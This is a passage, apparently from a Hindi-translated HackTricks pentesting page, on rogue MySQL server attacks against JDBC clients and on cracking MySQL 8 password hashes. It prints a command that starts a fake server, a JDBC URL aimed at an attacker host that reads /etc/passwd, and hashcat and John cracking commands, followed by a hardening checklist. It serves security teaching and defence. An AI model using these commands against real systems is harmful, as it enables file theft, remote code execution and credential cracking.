 ### JDBC क्लाइंट के खिलाफ धोखेबाज़ / नकली MySQL सर्वर हमले  
कई ओपन-सोर्स उपकरण *आंशिक* MySQL प्रोटोकॉल को लागू करते हैं ताकि वे बाहर कनेक्ट करने वाले JDBC क्लाइंट पर हमला कर सकें:

* **mysql-fake-server** (Java, फ़ाइल पढ़ने और डीसिरियलाइजेशन शोषण का समर्थन करता है)  
* **rogue_mysql_server** (Python, समान क्षमताएँ)

विशिष्ट हमले के रास्ते:

1. पीड़ित एप्लिकेशन `allowLoadLocalInfile=true` या `autoDeserialize=true` के साथ `mysql-connector-j` लोड करता है।  
2. हमलावर DNS / होस्ट प्रविष्टि को नियंत्रित करता है ताकि DB का होस्टनेम उनके नियंत्रण में मशीन पर हल हो सके।  
3. दुर्भावनापूर्ण सर्वर तैयार पैकेट के साथ प्रतिक्रिया करता है जो या तो `LOCAL INFILE` मनमाने फ़ाइल पढ़ने या Java डीसिरियलाइजेशन → RCE को ट्रिगर करता है।  

नकली सर्वर शुरू करने के लिए एक उदाहरण एक-लाइनर (Java):
```bash
java -jar fake-mysql-cli.jar -p 3306  # from 4ra1n/mysql-fake-server
```
फिर पीड़ित एप्लिकेशन को `jdbc:mysql://attacker:3306/test?allowLoadLocalInfile=true` पर इंगित करें और फ़ाइल नाम को *username* फ़ील्ड में base64 के रूप में एन्कोड करके `/etc/passwd` पढ़ें (`fileread_/etc/passwd` → `base64ZmlsZXJlYWRfL2V0Yy9wYXNzd2Q=`)।

### `caching_sha2_password` हैश को क्रैक करना
MySQL ≥ 8.0 पासवर्ड हैश को **`$mysql-sha2$`** (SHA-256) के रूप में स्टोर करता है। Hashcat (मोड **21100**) और John-the-Ripper (`--format=mysql-sha2`) 2023 से ऑफ़लाइन क्रैकिंग का समर्थन करते हैं। `authentication_string` कॉलम को डंप करें और इसे सीधे फीड करें:
```bash
# extract hashes
echo "$mysql-sha2$AABBCC…" > hashes.txt
# Hashcat
hashcat -a 0 -m 21100 hashes.txt /path/to/wordlist
# John the Ripper
john --format=mysql-sha2 hashes.txt --wordlist=/path/to/wordlist
```
### हार्डनिंग चेकलिस्ट (2025)
• **`LOCAL_INFILE=0`** और **`--secure-file-priv=/var/empty`** सेट करें ताकि अधिकांश फ़ाइल-पढ़ने/लिखने की प्राइमिटिव्स को समाप्त किया जा सके।  
• एप्लिकेशन खातों से **`FILE`** विशेषाधिकार हटा दें।  
• Connector/J पर `allowLoadLocalInfile=false`, `allowUrlInLocalInfile=false`, `autoDeserialize=false`, `propertiesTransform=` (खाली) सेट करें।  
• अप्रयुक्त प्रमाणीकरण प्लगइन्स को अक्षम करें और **TLS की आवश्यकता करें** (`require_secure_transport = ON`)।  
• `CREATE FUNCTION`, `INSTALL COMPONENT`, `INTO OUTFILE`, `LOAD DATA LOCAL` और अचानक `SET GLOBAL` बयानों की निगरानी करें।  

---

## संदर्भ
- [Pre-auth SQLi to RCE in Fortinet FortiWeb (watchTowr Labs)](https://labs.watchtowr.com/pre-auth-sql-injection-to-rce-fortinet-fortiweb-fabric-connector-cve-2025-25257/)  
- [Oracle MySQL Connector/J propertiesTransform RCE – CVE-2023-21971 (Snyk)](https://security.snyk.io/vuln/SNYK-JAVA-COMMYSQL-5441540)  
- [mysql-fake-server – Rogue MySQL server for JDBC client attacks](https://github.com/4ra1n/mysql-fake-server)  

- [Pre-auth SQLi to RCE in Fortinet FortiWeb (watchTowr Labs)](https://labs.watchtowr.com/pre-auth-sql-injection-to-rce-fortinet-fortiweb-fabric-connector-cve-2025-25257/)  

{{#include ../banners/hacktricks-training.md}}
